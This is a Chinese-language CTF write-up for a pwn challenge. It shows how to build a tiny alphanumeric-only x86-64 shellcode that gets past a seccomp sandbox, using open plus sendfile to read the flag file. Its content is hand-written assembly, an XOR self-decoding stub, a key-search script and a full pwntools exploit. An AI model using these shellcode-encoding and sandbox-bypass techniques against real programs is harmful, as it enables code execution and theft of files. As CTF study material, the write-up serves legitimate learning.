


# 审题

很清晰的看到，题目是给了一个0x53的shellcode读入，并且限制必须是`0-9,A-Z,a-z`中的字符，并且直接清零了除了rsp和rip之外的所有寄存器。

以及程序甚至还有沙箱，禁用了大部分系统调用，read也被禁用，而且还有第一三四个参数必须为0或1的规则。基本上只剩下了open('flag',0,0)加上sendfile的方法。

由于shellcode的字节太少，不能通过现成的ae64，alpha3之类的可视化字符生成工具来写shellcode，必须用到异或手搓。
# 思路
通过异或的方式来恢复shellcode中违规字符，那么第一步就是先编写好shellcode，并且尽可能减少其中违规字符的出现频率，以达到减少异或解码段长度的目的。
```asm
# open('flag',0,0)
push 0x67616c66
push rsp
pop rdi
push 0x2
pop rax
syscall

# sendfile(1,0,0,1)
label:
push 0x1
push 0x28
pop rax
push rdx
pop rsi
pop rdi
push rdi
pop r10
syscall
jmp label
```
如上汇编代码的机器码为
```python
shellcode = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'
shellcode+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'
```
然后编写一个简单的脚本，找出合法字符集合中是否存在字符A，能够与shellcode中的任意非法字符异或得到合法字符集中的字符(怎么突然严谨起来了)
```python
wrongset = []
wrongset.append(0x5f)
wrongset.append(0x02)
wrongset.append(0x0f)
wrongset.append(0x05)
wrongset.append(0x01)
wrongset.append(0x28)
wrongset.append(0x5e)
# 0x6a
wrongset.append(0xeb)
wrongset.append(0xf1)
# 0xa8

charset = []
for i in range(0x30,0x3a,1):
    charset.append(i)
for i in range(0x41,0x5b,1):
    charset.append(i)
for i in range(0x61,0x7b,1):
    charset.append(i)
for char in charset:
    print(chr(char))
    count = 0
    for wrongchar in wrongset:
        if wrongchar^char in charset:
            print(f'{hex(wrongchar)}^{hex(char)} in charset')
            count += 1
    print(f'{hex(char)} got {count} points')
```
结论是前面的七个非法字节都有很多字符满足条件，我最后选择了0x6a。而shellcode中的最后两个字节，也就是jmp -0xf，由于0xeb和0xf1都大于0x7f，必须要大于0x7f的数字与合法字符异或才能得到，这一部分我参考火箭的思路，选择了imul的乘法来得到大数。

接下来着手编写异或解码段，我选择了`xor [rdi+立即数],dl`作为异或。那么就需要rdi是一个指向`0x20240000`的数，由于`0x20240000`也是非法字符，所以只能通过异或来取得。

由于我是个笨蛋，没想到怎么写比较好，就抄了官方wp的前面这一部分
```
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]
```
然后就是重复使用`xor [rdi+立即数],dl`
```
xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx
```
如果有连续两个非法字符连在一起，还可以使用`dx`来一次改两个字节

接下来是处理最后的两个字节`0xEBF1`
我使用`imul r15,[rcx],0x44`，将[rcx]的值乘以0x44，放进r15。本来还想使用rsi的，能省一个字节，但问题是之后还得将rsi清零，要不然会影响syscall的结果，权衡一下还是很明确使用r15更划算。
[rcx]的值是`0x4a4e6a4a`根据我的遍历，得到了0x44是可以使用的，0x44*0x4a=0xa8。而我的遍历脚本告诉我0xa8可以与0xeb以及0xf1分别异或都能得到合法字符。

在imul之后，继续吧r15的值给rdx，继续`xor [rdi+立即数],dl`
```
push r15;pop rdx
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx # 将等会会用到的参数清零，以保证syscall得到正确结果
```
# 整体exp
```python
shellcode = asm('''
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]

xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx

imul r15,[rcx],0x44
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx
''')

# 7,9,(0xb,0xc)
shellcode+= b'\x68\x66\x6C\x61\x67\x54\x35\x6A\x68\x58\x65\x6F'
originset = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'

# 0xe,0x10,0x13,(0x17,0x18)
shellcode+= b'\x6A\x6B\x6A\x42\x58\x52\x34\x35\x57\x41\x5A\x65\x6F'
originset+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'

shellcode+= b'\x43\x59'
# a8
io.send(shellcode)

io.recvuntil('>')
flag = io.recvuntil(b'}')
print(flag)
```
咳咳，太难搞了，很多数值在规划的时候没有办法获得准确结果，必须走一步看一步。而这样就心里很没底。


